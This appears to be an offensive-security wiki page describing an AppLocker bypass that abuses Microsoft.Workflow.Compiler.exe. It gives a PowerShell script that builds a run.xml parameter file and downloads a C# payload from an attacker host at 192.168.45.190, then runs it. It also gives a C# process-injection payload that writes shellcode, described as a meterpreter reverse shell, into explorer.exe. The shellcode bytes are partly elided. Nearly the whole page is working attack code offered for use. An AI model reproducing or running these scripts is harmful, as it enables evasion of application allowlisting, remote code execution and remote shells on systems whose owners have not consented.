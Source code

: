 ```yaml
---
title: CSharp AppLocker bypass
tags:
  - breach
  - operations
  - applocker
  - bypass
  - allowlist
  - csharp
  - whitelist
---
```


Even with default **AppLocker** executable restrictions, we can still use
binaries on the host to compile and execute arbitrary C# .NET code. The
following **PowerShell** commands will use code from the
`Microsoft.Workflow.Compiler.exe` to generate a valid `run.xml` file designed to
compile and execute a C# .NET payload in the file `payload.txt`.

Be cognizant of the fact that this PowerShell script reflectively loads
assemblies and directly interacts with C# and .NET. If AppLocker scripting
restrictions are enabled, we will not be able to execute these commands on the
target. In this scenario, we'll have to generate the `run.xml` parameter file on
a development Windows host and then transfer `run.xml` and `payload.txt` to the
target.

Once we've generated the `run.xml` parameters file, we can execute the payload
by invoking `Microsoft.Workflow.Compiler.exe`, providing it with the `run.xml`
and `results.xml` parameters. Any issues with compiling the target `payload.txt`
C# .NET payload will be provided in the `results.xml` file.

```powershell
$workflowProgram = (Get-ChildItem `
	-ErrorAction SilentlyContinue `
	-Path "C:\Windows" `
	-Filter "Microsoft.Workflow.Compiler.exe" `
	-Recurse `
	-File | Where-Object {$_.FullName -Like "*Framework64\v4*"}).FullName

$workflowAsm = [Reflection.Assembly]::LoadFrom($workflowProgram)

$serializeInputToWrapper = `
	[Microsoft.Workflow.Compiler.CompilerWrapper].GetMethod(
		'SerializeInputToWrapper',
		[Reflection.BindingFlags] 'NonPublic, Static'
	)

$workflowLibrary = (Get-ChildItem `
	-ErrorAction SilentlyContinue `
	-Path "C:\Windows" `
	-Filter "System.Workflow.ComponentModel.dll" `
	-Recurse `
	-File | Where-Object {$_.FullName -Like "*Framework64\v4*"}).FullName

Add-Type -Path $workflowLibrary

$compilerParam = New-Object `
	-TypeName Workflow.ComponentModel.Compiler.WorkflowCompilerParameters

$compilerParam.GenerateInMemory = $True
$pathVar = "payload.txt"
$output = (Join-Path -Path (Resolve-Path -Path .).Path -ChildPath "run.xml")

$tmp = $serializeInputToWrapper.Invoke(
	$null,
	@(
		[Workflow.ComponentModel.Compiler.WorkflowCompilerParameters] $compilerParam,
		[String[]] @(,$pathVar)
	)
)

Move-Item $tmp $output
$lHost = "192.168.45.190"
$lPort = "80"

Invoke-RestMethod `
	-Uri "http://${lHost}:${lPort}/$pathVar" `
	-UseBasicParsing `
	-OutFile $pathVar

. $workflowProgram $output "results.xml"
```

The following C# .NET code is a simple process injection payload that loads a
**meterpreter** reverse shell payload into the `explorer.exe` process. We avoid
using any non-standard libraries that might require installation or inclusion as
this will fail at compile time.

```csharp
﻿using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Workflow.ComponentModel;
public class Run : Activity
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr OpenProcess(
        uint processAccess,
        bool bInheritHandle,
        int processId
    );
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAllocEx(
        IntPtr hProcess,
        IntPtr lpAddress,
        uint dwSize,
        uint flAllocationType,
        uint flProtect
    );
    [DllImport("kernel32.dll")]
    static extern bool WriteProcessMemory(
        IntPtr hProcess,
        IntPtr lpBaseAddress,
        byte[] lpBuffer,
        Int32 nSize,
        out IntPtr lpNumberOfBytesWritten
    );
    [DllImport("kernel32.dll")]
    static extern IntPtr CreateRemoteThread(
        IntPtr hProcess,
        IntPtr lpThreadAttributes,
        uint dwStackSize,
        IntPtr lpStartAddress,
        IntPtr lpParameter,
        uint dwCreationFlags,
        IntPtr lpThreadId
    );
    public Run()
    {
        int explorerId = Process.GetProcessesByName("explorer")[0].Id;
        IntPtr hProcess = OpenProcess(0x001F0FFF, false, explorerId);
        IntPtr addr =
            VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
        byte[] buf = new byte[854] {
            0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xcc, 0x00, 0x00, 0x00, 0x41,
            // ...
            0xc2, 0xf0, 0xb5, 0xa2, 0x56, 0xff, 0xd5
        };
        IntPtr outSize;
        WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
        IntPtr hThread = CreateRemoteThread(
            hProcess,
            IntPtr.Zero,
            0,
            addr,
            IntPtr.Zero,
            0,
            IntPtr.Zero
        );
    }
}
```

## Related pages

- [[bypassing-application-whitelisting|Bypassing application whitelisting]]
